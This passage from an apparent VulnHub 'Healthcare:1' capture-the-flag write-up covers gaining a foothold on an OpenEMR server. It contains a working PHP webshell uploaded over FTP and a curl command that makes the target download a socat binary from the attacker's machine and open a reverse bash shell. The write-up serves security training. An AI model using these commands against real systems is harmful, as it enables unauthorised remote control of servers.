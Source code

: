 That being said, we can write arbitrary files on the OpenEMR application!

**To gain initial foothold, let's upload a PHP webshell:**
```shell
┌[siunam♥Mercury]-(~/ctf/VulnHub/Healthcare:1)-[2023.08.21|18:56:05(HKT)]
└> echo '<?php system($_GET["cmd"]); ?>' > webshell.php
```

```shell
ftp> cd /var/www/html/openemr
[...]
ftp> put webshell.php 
[...]
226 Transfer complete
31 bytes sent in 00:00 (49.70 KiB/s)
```

**Test the uploaded webshell works or not:**
```shell
┌[siunam♥Mercury]-(~/ctf/VulnHub/Healthcare:1)-[2023.08.21|18:57:03(HKT)]
└> curl http://10.69.96.76/openemr/webshell.php --get --data-urlencode "cmd=id" 
uid=479(apache) gid=416(apache) groups=416(apache)
```

It's working!

**Reverse shell time!**

- Setup a socat listener: (For fully interactive shell)

```shell
┌[siunam♥Mercury]-(~/ctf/VulnHub/Healthcare:1)-[2023.08.21|18:57:44(HKT)]
└> socat -d -d file:`tty`,raw,echo=0 TCP-LISTEN:443
2023/08/21 18:57:44 socat[122299] N opening character device "/dev/pts/1" for reading and writing
2023/08/21 18:57:44 socat[122299] N listening on AF=2 0.0.0.0:443
```

- Host the `socat` binary via Python's `http.server` module:

```shell
┌[siunam♥Mercury]-(~/ctf/VulnHub/Healthcare:1)-[2023.08.21|18:58:29(HKT)]
└> file /opt/static-binaries/binaries/linux/x86/socat-2.0.0-b8/socat 
/opt/static-binaries/binaries/linux/x86/socat-2.0.0-b8/socat: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), statically linked, with debug_info, not stripped
┌[siunam♥Mercury]-(~/ctf/VulnHub/Healthcare:1)-[2023.08.21|18:58:39(HKT)]
└> python3 -m http.server -d /opt/static-binaries/binaries/linux/x86/socat-2.0.0-b8/ 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```

- Trigger the reverse shell: (Generated from [revshells.com](https://www.revshells.com/))

```shell
┌[siunam♥Mercury]-(~/ctf/VulnHub/Healthcare:1)-[2023.08.21|18:59:27(HKT)]
└> curl http://10.69.96.76/openemr/webshell.php --get --data-urlencode "cmd=wget http://10.69.96.100/socat -O /tmp/socat; chmod +x /tmp/socat; /tmp/socat TCP:10.69.96.100:443 EXEC:'/bin/bash',pty,stderr,setsid,sigint,sane"

```

